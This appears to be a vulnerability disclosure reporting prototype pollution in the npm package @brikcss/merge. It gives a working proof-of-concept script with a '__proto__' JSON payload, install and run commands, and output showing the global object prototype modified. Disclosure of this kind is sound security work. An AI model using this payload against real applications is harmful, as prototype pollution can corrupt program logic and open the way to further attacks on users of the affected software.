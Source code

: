 # Description

`@brikcss/merge` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var merge = require("@brikcss/merge")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
merge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @brikcss/merge # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
